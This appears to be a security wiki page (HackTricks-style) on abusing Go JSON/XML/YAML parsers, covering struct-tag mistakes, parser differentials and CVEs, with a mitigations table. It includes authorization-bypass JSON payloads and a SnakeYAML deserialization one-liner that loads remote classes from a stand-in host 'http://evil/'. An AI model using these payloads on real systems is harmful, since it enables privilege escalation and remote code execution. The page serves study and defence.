 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

The following issues were detected in the Go JSON although they could be present in other languages as well. These issues were published in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

The goal is to exploit structs that allow an attacker to read/write sensitive fields (e.g., `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
    Username string `json:"username,omitempty"`
    Password string `json:"password,omitempty"`
    IsAdmin  bool   `json:"-"`
}
```

- Common Vulnerabilities

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
    Username string
}
```

Payload:
```json
{"Username": "admin"}
```

2. **Incorrect use of `-`**:
```go
type User struct {
    IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```

Payload:
```json
{"-": true}
```

✔️ Proper way to block field from being (un)marshaled:
```go
type User struct {
    IsAdmin bool `json:"-"`
}
```


### Parser Differentials

The goal is to bypass authorization by exploiting how different parsers interpret the same payload differently like in:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. Duplicate Fields:**
Go's `encoding/json` takes the **last** field.

```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```

Other parsers (e.g., Java’s Jackson) may take the **first**.

**2. Case Insensitivity:**
Go is case-insensitive:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```

Even Unicode tricks work:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```

**3. Cross-service mismatch:**
Imagine:
- Proxy written in Go
- AuthZ service written in Python

Attacker sends:
```json
{
  "action": "UserAction",
  "AcTiOn": "AdminAction"
}
```

- Python sees `UserAction`, allows it
- Go sees `AdminAction`, executes it


### Data Format Confusion (Polyglots)

The goal is to exploit systems that mix formats (JSON/XML/YAML) or fail open on parser errors like:
- **CVE-2020-16250**: HashiCorp Vault parsed JSON with an XML parser after STS returned JSON instead of XML.

Attacker controls:
- The `Accept: application/json` header
- Partial control of JSON body

Go’s XML parser parsed it **anyway** and trusted the injected identity.

- Crafted payload:
```json
{
  "action": "Action_1",
  "AcTiOn": "Action_2",
  "ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```

Result:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Notable Parser Vulnerabilities (2023-2025)

> The following publicly-exploitable issues show that insecure parsing is a multi-language problem — not just a Go problem.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Affects: `org.yaml:snakeyaml` < **2.0** (used by Spring-Boot, Jenkins, etc.).
* Root cause: `new Constructor()` deserializes **arbitrary Java classes**, allowing gadget chains that culminate in remote-code execution.
* One-liner PoC (will open the calculator on vulnerable host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigation:
  1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
  2. On older versions, explicitly use `new Yaml(new SafeConstructor())`. 

### libyaml Double-Free (CVE-2024-35325)

* Affects: `libyaml` ≤0.2.5 (C library leveraged by many language bindings).
* Issue: Calling `yaml_event_delete()` twice leads to a double-free that attackers can turn into DoS or, in some scenarios, heap exploitation.
* Status: Upstream rejected as “API misuse”, but Linux distributions shipped patched **0.2.6** that null-frees the pointer defensively. 

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Affects: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* Bug: In `GenericReader::ParseNumber()` unchecked arithmetic lets attackers craft huge numeric literals that wrap around and corrupt the heap — ultimately enabling privilege-escalation when the resulting object graph is used for authorization decisions. 

---

### 🔐 Mitigations (Updated)

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ No fix in stdlib — validate with [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Case-insensitive match (Go)         | ❌ No fix — validate struct tags + pre-canonicalize input   |
| XML garbage data / XXE              | Use a hardened parser (`encoding/xml` + `DisallowDTD`)     |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Use SafeConstructor / upgrade to SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Upgrade to **0.2.6** or distro-patched release            |
| RapidJSON <patched commit           | Compile against latest RapidJSON (≥July 2024)              |

## See also

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0” 
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml) 

{{#include ../banners/hacktricks-training.md}}
